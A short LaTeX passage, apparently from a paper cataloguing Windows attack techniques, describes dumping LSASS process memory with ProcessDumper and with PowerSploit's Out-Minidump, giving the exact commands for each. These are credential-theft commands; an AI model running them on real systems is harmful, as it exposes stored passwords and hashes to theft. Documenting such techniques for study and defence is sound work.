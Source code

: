\subsubsection{Exploit 9: Dump of LSASS with pd}
ProcessDumper, also known as pd\cite{pd}, is another program to dump the \textit{lsass.exe} contents. For example if the id of the process is 552:
\begin{lstlisting}[style=PS,numbers=none]
C:\Users\Administrator\Downloads\pd.exe -p 552 > c:\temp\lsass.dump
\end{lstlisting}

\subsubsection{Exploit 10: Dump of LSASS with Minidump}
Minidump is a script from the PowerSploit Post-Explotation Framework\cite{powersploit}. It can be combined with the \textit{Get-Process} builtin to dump the process into a file:
\begin{lstlisting}[style=PS]
Import-Module c:\users\administrator\downloads\PowerSploit-master\Exfiltration\Out-Minidump.ps1
Get-Process lsass | Out-Minidump -DumpFilePath c:\temp
\end{lstlisting}

